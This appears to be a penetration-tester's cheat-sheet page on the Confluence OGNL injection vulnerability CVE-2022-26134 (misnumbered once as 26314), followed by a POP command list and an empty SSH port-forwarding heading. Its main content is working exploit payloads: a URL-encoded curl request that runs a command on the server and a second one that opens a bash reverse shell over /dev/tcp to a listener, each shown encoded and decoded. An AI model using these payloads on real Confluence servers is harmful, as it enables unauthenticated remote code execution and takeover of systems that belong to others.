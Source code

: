 # Confluence CVE-2022-26134

CVE-2022-26314 is an unauthenticated and remote OGNL injection vulnerability resulting in code execution in the context of the Confluence server (typically the confluence user on Linux installations). Given the nature of the vulnerability, internet-facing Confluence servers are at very high risk.

As stated, the vulnerability is an OGNL injection vulnerability affecting the HTTP server. The OGNL payload is placed in the URI of an HTTP request. Any type of HTTP method appears to work, whether valid (GET, POST, PUT, etc) or invalid (e.g. “BALH”). In its simplest form, an exploit abusing the vulnerability looks like this:

```
curl -v http://10.0.0.28:8090/%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22touch%20/tmp/r7%22%29%7D/
```

Above, the exploit is URL-encoded. The exploit encompasses everything from the start of the content location to the last instance of /. Decoded it looks like this:

```
${@java.lang.Runtime@getRuntime().exec("touch /tmp/r7")}
```

Reverse Shell:

```
curl -v http://10.0.0.28:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/10.0.0.28/1270%200%3E%261%27%29.start%28%29%22%29%7D/
```

Decoded:

```
${new javax.script.ScriptEngineManager().getEngineByName("nashorn").eval("new java.lang.ProcessBuilder().command('bash','-c','bash -i >& /dev/tcp/10.0.0.28/1270 0>&1').start()")}
```

## POP Syntax

```
POP Commands:
  USER rosesecurity           Log in as "rosesecurity"
  PASS password      Substitue "password" for your actual password
  STAT               List number of messages, total mailbox size
  LIST               List messages and sizes
  RETR n             Show message n
  DELE n             Mark message n for deletion
  RSET               Undo any changes
  QUIT               Logout (expunges messages if no RSET)
  TOP msg n          Show first n lines of message number msg
  CAPA               Get capabilities
```

## SSH Dynamic Port Forwarding
